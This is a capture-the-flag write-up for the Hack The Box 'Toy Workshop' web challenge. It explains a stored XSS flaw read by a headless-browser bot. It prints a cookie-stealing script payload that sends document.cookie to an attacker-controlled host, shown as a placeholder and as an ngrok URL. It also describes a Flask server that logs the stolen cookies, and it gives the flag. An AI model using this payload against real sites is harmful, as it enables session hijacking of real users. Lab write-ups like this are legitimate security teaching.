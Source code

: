 # Toy Workshop (300)

## Challenge

> The work is going well on Santa's toy workshop but we lost contact with the manager in charge! We suspect the evil elves have taken over the workshop, can you talk to the worker elves and find out?

* [web_toy_workshop.zip](web_toy_workshop.zip)

## Solution

1. Let's start by looking at the `challenge/index.js` file in the source code zip. The application connects to a sqlite database (`const db = new Database('toy_workshop.db');`), so lets look at `database.js`.

2. `database.js` allows for adding and reading items from the database. While we do control the `query` variable via the website, it does not look like we would be able to accomplish anything using an SQL injection.

3. Let's look at the `challenge/routes/index.js` file. There is an `/api/submit` endpoint which the frontend posts user data to. This function adds our user input, called a query, to the database and then calls `bot.readQueries(db)`. The `/queries` endpoint simply returns all the queries contained in the database. We cannot access the `/queries` endpoint because the IP address must be `127.0.0.1`, which is the localhost loopback address, otherwise the page redirects to `/`.

4. Next, let's check out `challenge/bot.js` so we can figure out what `bot.readQueries(db)` does. `bot.js` imports puppeteer, a headless Chromium browser controlled via JavaScript, defines a `flag` variable that holds the flag, loads the index page of the application, sets the `flag` cookie in the browser, visits the `/queries` endpoint, and then exits.

5. This is a stored cross-site scripting vulnerability (Stored XSS). We can send a malicious script through the frontend to the database. When a user visits the `/queries` page, the server will serve the malicious code to the user. We can craft our malicious code to grab the current cookies and then redirect to a webpage we control with those cookies as parameters in the request.

6. The malicious code is standard XSS code: `<script>document.location='http://<ATTACKER_SERVER>?c='+document.cookie;</script>`. We redirect to our webpage by changing the `document.location` and we set the `c` argument to `document.cookie`, which contains the current page's cookies.

7. However, we need to actually run a server to receive this request and log the cookie. There is a basic [Flask](https://flask.palletsprojects.com), a micro web framework written in Python, application that does exactly this in [xss-cookie-stealer.py](xss-cookie-stealer.py). The script defines one route, `/`, that will read the `c` parameter in the request URL, open a file called `cookies.txt`, write the contents of the `c` parameter to that file, and then redirect to `https://google.com`. We run this server on all interfaces (`0.0.0.0`) on port `16361`.

8. You can run this script anywhere that is internet accessible. For instance you can port forward port `16361` through your router or you could deploy a machine on Google Cloud. But, the easiest method is to use [ngrok](https://ngrok.com/).

9. Create an account at <https://ngrok.com/>, download the application, and get logged in. Now, start the Flask python server with `python xss-cookie-stealer.py` and then run `/ngrok http 16361`. Ngrok will display a URL in the form `http://<subdomain>.ngrok.io`.

10. Paste your ngrok URL into the malicious payload. If ngrok said my URL was `http://92832de0.ngrok.io`, then the payload should be `<script>document.location='http://92832de0.ngrok.io?c='+document.cookie;</script>`

11. Finally, paste the payload into the frontend for the application, wait a few second for the puppeteer instance to start and load the page, and then you should see the flag in your terminal running Flask and in the `cookies.txt` file.

### Flag

`HTB{3v1l_3lv3s_4r3_r1s1ng_up!}`
